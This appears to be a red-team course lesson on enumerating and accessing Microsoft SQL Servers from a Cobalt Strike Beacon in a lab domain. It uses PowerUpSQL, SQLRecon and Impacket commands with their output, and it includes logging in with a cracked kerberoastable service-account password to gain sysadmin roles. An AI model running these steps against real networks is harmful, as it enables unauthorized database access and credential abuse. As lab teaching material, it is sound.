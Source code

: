 Microsoft SQL Server is a relational database management system commonly found in Windows environments. They’re typically used to store information to support a myriad of business functions. In addition to the obvious data theft opportunities, they also have a large attack surface, allowing code execution, privilege escalation, lateral movement and persistence.

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) and [SQLRecon](https://github.com/skahwah/SQLRecon) are excellent tools for enumerating and interacting with MS SQL Servers.

PowerUpSQL has a few cmdlets available for finding MS SQL Servers, including `Get-SQLInstanceDomain`, `Get-SQLInstanceBroadcast` and `Get-SQLInstanceScanUDP`.
```

beacon> powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
beacon> powershell Get-SQLInstanceDomain

ComputerName     : sql-2.dev.cyberbotic.io
Instance         : sql-2.dev.cyberbotic.io,1433
DomainAccountSid : 1500000521000672332383313895871914512914091400
DomainAccount    : mssql_svc
DomainAccountCn  : MS SQL Service
Service          : MSSQLSvc
Spn              : MSSQLSvc/sql-2.dev.cyberbotic.io:1433
LastLogon        : 8/15/2022 7:55 PM
Description      :
```

  

`Get-SQLInstanceDomain` works by searching for SPNs that begin with _MSSQL*_.  This output shows that SQL-2 is running an instance of MS SQL server, under the context of the `mssql_svc` domain account.  You may also search the domain for groups that sound like they may have access to database instances (for example, a "SQL Admins" group).

`Get-SQLConnectionTest` can be used to test whether or not we can connect to the database.
```
beacon> powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl

ComputerName : sql-2.dev.cyberbotic.io
Instance     : sql-2.dev.cyberbotic.io,1433
Status       : Accessible
```
  

Then use `Get-SQLServerInfo` to gather more information about the instance.
```
beacon> powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"

ComputerName           : sql-2.dev.cyberbotic.io
Instance               : SQL-2
DomainName             : DEV
ServiceProcessID       : 2668
ServiceName            : MSSQLSERVER
ServiceAccount         : DEV\mssql_svc
AuthenticationMode     : Windows Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 15.0.2000.5
SQLServerMajorVersion  : 2019
SQLServerEdition       : Standard Edition (64-bit)
SQLServerServicePack   : RTM
OSArchitecture         : X64
OsVersionNumber        : SQL
Currentlogin           : DEV\bfarmer
IsSysadmin             : No
ActiveSessions         : 1

  ```

  If there are multiple SQL Servers available, you can chain these commands together to automate the data collection.  
  
```
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```
  

SQLRecon can also enumerate servers via SPNs and fetch information about the instance with the `info` module.
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /enum:sqlspns

[*] Looking for MSSQL SPNs ...
[*] 1 found.

 |-> ComputerName:  sql-2.dev.cyberbotic.io
 |-> Instance:      sql-2.dev.cyberbotic.io:1433
 |-> AccountSid:    S-1-5-21-569305411-121244042-2357301523-1115
 |-> AccountName:   mssql_svc
 |-> AccountCn:     MS SQL Service
 |-> Service:       MSSQLSvc
 |-> SPN:           MSSQLSvc/sql-2.dev.cyberbotic.io:1433
 |-> LastLogon:     1/24/0423 12:48:15 PM
 
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /auth:wintoken /host:sql-2.dev.cyberbotic.io /module:info

[*] Extracting SQL Server information from sql-2.dev.cyberbotic.io

 |-> ComputerName:           SQL-2
 |-> DomainName:             DEV
 |-> ServicePid:             4388
 |-> ServiceName:            MSSQLSERVER
 |-> ServiceAccount:         DEV\mssql_svc
 |-> AuthenticationMode:     Windows Authentication
 |-> ForcedEncryption:       0
 |-> Clustered:              No
 |-> SqlServerVersionNumber: 15.0.2000.5
 |-> SqlServerMajorVersion:  2019
 |-> SqlServerEdition:       Standard Edition (64-bit)
 |-> SqlServerServicePack:   RTM
 |-> OsArchitecture:         X64
 |-> OsVersionNumber:        2022
 |-> CurrentLogin:           DEV\bfarmer
 |-> IsSysAdmin:             No
 |-> ActiveSessions:         1
```
  

The `/auth:wintoken` option allows SQLRecon to use the access token of the Beacon.  This output shows that whilst the database is accessible, our current user, bfarmer, is not a sysadmin.  SQLRecon has a nice module which can show us what roles we do have.
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:whoami

[*] Determining user permissions on sql-2.dev.cyberbotic.io,1433
[*] Logged in as DEV\bfarmer
[*] Mapped to the user guest
[*] Roles:
 |-> User is a member of public role.
 |-> User is NOT a member of db_owner role.
 |-> User is NOT a member of db_accessadmin role.
 |-> User is NOT a member of db_securityadmin role.
 |-> User is NOT a member of db_ddladmin role.
 |-> User is NOT a member of db_backupoperator role.
 |-> User is NOT a member of db_datareader role.
 |-> User is NOT a member of db_datawriter role.
 |-> User is NOT a member of db_denydatareader role.
 |-> User is NOT a member of db_denydatawriter role.
 |-> User is NOT a member of sysadmin role.
 |-> User is NOT a member of setupadmin role.
 |-> User is NOT a member of serveradmin role.
 |-> User is NOT a member of securityadmin role.
 |-> User is NOT a member of processadmin role.
 |-> User is NOT a member of diskadmin role.
 |-> User is NOT a member of dbcreator role.
 |-> User is NOT a member of bulkadmin role.
```
  

On default installations, standard users do not have this "public" role by default and must be explicitly granted through [SQL Server Manager Studio](https://learn.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms) (SSMS).  The aforementioned information on a SQL instance cannot be enumerated if the user's security context does not have a valid role.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/3ff/4cb/2fa/roles.png)

  

Finding a user (or group) that does have access can be challenging, because without the ability to query the SQL instance to ask it, you can be stuck guessing.  One port of call is to look for appropriately names domain groups and their members.
```
beacon> powershell Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }

GroupName     MemberName
---------     ----------
MS SQL Admins jking
```
  

Another option is to go after the MS SQL service account itself as this is also often given sysadmin privileges.  This assumption is the basis of BloodHound's SQLAdmin attack path.  We know that the domain account being used to run the service is `DEV\mssql_svc` and that the account is kerberoastable owing to its SPN.  If we can crack its plaintext password, we can use it to gain access to the SQL instance.  The credentials can be used with `make_token` in Beacon and `/a:WinToken` in SQLRecon; or the `/a:WinDomain` option with `/d:<domain> /u:<username> /p:<password>` in SQLRecon directly.
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:windomain /d:dev.cyberbotic.io /u:mssql_svc /p:Cyberb0tic /h:sql-2.dev.cyberbotic.io,1433 /m:whoami

[*] Determining user permissions on sql-2.dev.cyberbotic.io,1433
[*] Logged in as DEV\mssql_svc
[*] Mapped to the user dbo
[*] Roles:
 |-> User is a member of public role.
 |-> User is NOT a member of db_owner role.
 |-> User is NOT a member of db_accessadmin role.
 |-> User is NOT a member of db_securityadmin role.
 |-> User is NOT a member of db_ddladmin role.
 |-> User is NOT a member of db_backupoperator role.
 |-> User is NOT a member of db_datareader role.
 |-> User is NOT a member of db_datawriter role.
 |-> User is NOT a member of db_denydatareader role.
 |-> User is NOT a member of db_denydatawriter role.
 |-> User is a member of sysadmin role.
 |-> User is a member of setupadmin role.
 |-> User is a member of serveradmin role.
 |-> User is a member of securityadmin role.
 |-> User is a member of processadmin role.
 |-> User is a member of diskadmin role.
 |-> User is a member of dbcreator role.
 |-> User is a member of bulkadmin role.
```
  

Once we have access, there are several options for issuing queries against a SQL instance.  `Get-SQLQuery` from PowerUpSQL:
```
beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"

Column1
-------
SQL-2
```
  

SQLRecon:
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:query /c:"select @@servername"

[*] Executing 'select @@servername' on sql-2.dev.cyberbotic.io,1433
column0 | 
----------
SQL-2 |

  

`mssqlclient.py` from Impacket via proxychains:
```
```
ubuntu@DESKTOP-3BSK7NO ~> proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.25:1433-<><>-OK
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL-2): Line 1: Changed database context to 'master'.
[*] INFO(SQL-2): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands

SQL> select @@servername;

--------------------------------------------------------------------------------------------------------------------------------

SQL-2
```
  

Or a Windows SQL GUI, such as [HeidiSQL](https://www.heidisql.com/) [](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms)via Proxifier:

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/574/967/edc/heidi.png)